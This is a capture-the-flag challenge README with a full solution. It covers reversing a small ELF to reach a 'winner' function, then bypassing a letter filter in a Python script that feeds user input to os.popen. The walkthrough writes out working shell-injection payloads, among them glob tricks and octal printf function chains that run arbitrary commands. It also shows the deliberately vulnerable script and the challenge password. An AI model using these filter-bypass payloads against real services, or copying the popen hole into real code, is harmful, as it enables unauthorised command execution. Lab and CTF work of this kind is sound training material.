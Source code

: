 # Information
Name: Daryl Lim

Admin ID: 1625608

# Bashing your spirit foods
Testing on bash injection knowledge

## Category
Misc.

## Question
You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.

Connect via `nc 127.0.0.1 2500` (Change to desired ip address and port)

## Hint
`I hate needles`

## Setup
Using docker
- Do `make docker`
- Build the docker file and run it.
- Allow users to run `/home/bashing_pwn/bash.py` as user 'bashing'.
- (Docker may not work because this is the first time working with it. Sorry!)

On local machine for testing
- Do `make local`
- Login as user 'bashing' and go and run `/home/bashing_pwn/bash.py`

## Solution
This is going to be a long one so hold on to your seats.
The first part is simple. Just press p to print text. The text shown is in base64
```
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAA8AUAAAAAAABAAAAAAAAAAFAaAAAAAAAAAAAAAEAAOAAJ
AEAAHwAeAAYAAAAFAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAA+AEAAAAAAAD4AQAAAAAAAAgA
AAAAAAAAAwAAAAQAAAA4AgAAAAAAADgCAAAAAAAAOAIAAAAAAAAcAAAAAAAAABwAAAAAAAAAAQAA
AAAAAAABAAAABQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKwKAAAAAAAArAoAAAAAAAAAACAA
AAAAAAEAAAAGAAAA2A0AAAAAAADYDSAAAAAAANgNIAAAAAAAYAIAAAAAAABoAgAAAAAAAAAAIAAA
AAAAAgAAAAYAAADwDQAAAAAAAPANIAAAAAAA8A0gAAAAAADgAQAAAAAAAOABAAAAAAAACAAAAAAA...
```
Decode the base64 and output it to a file. (`echo "base64_here" | base64 -d > filename`)

Using `file <filename>`, the filetype is actually an ELF executable.

Upon running (`chmod +x filename`) the program, the program waits for user input. No matter what input is given, there will always be a `Segmentation fault`.

This is actually just a `printf("Segmentation fault\n");` and does not actually mean a segmentation fault. It's just there to throw people off.
```
0x00000000000007a0 <+128>:	call   0x5d0 <__isoc99_scanf@plt>
0x00000000000007a5 <+133>:	mov    eax,DWORD PTR [rbp-0x44]
0x00000000000007a8 <+136>:	cmp    eax,0xdeadbabe
0x00000000000007ad <+141>:	jne    0x7bb <main+155>
0x00000000000007af <+143>:	mov    eax,0x0
0x00000000000007b4 <+148>:	call   0x810 <winner>
```
We want `eax` to be 0xdeadbabe so it calls the `winner` function.

Convert `0xdeadbabe` to decimal `3735927486`

Entering that as input for the c program, we get the key: `71m3 f0r lunch`

Now we can use the key to progress forward

This is where it starts to get complicated. The next part tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

```
[n]achos
[f]ishies
> ()
Hope you enjoy!
sh: 1: Syntax error: ")" unexpected
```

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? *`, we manage to view all the files on the folder as well as some system files. This reveals the python script and shows what it is actually doing

```
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `gen.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files.

There are 2 files, `flag.txt` and `.v13wF1a6`. We do not have permission to view the `flag.txt`, however, when `.v13wF1a6` runs, the program runs as user 'bashing_pwn' which happens to be the owner of `flag.txt`.

Running the program shows this: `Requires argv[1] as password`. Great! Now we need a password. Using `strings .v13wF1a6` we are able to deduce that the password is `f1ag_iz_n0t_f4r_aw4y_if_y0u_believ3`.

Running the program again with the correct password gives you the flag. Final command is in `solution.txt` in the solution folder.

Phew! That was very lengthy and probably a lot to absorb.

### Flag
Flag: flag{this_is_a_flag} (Change to desired flag)

## Distribution
No files to be distributed

### Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts
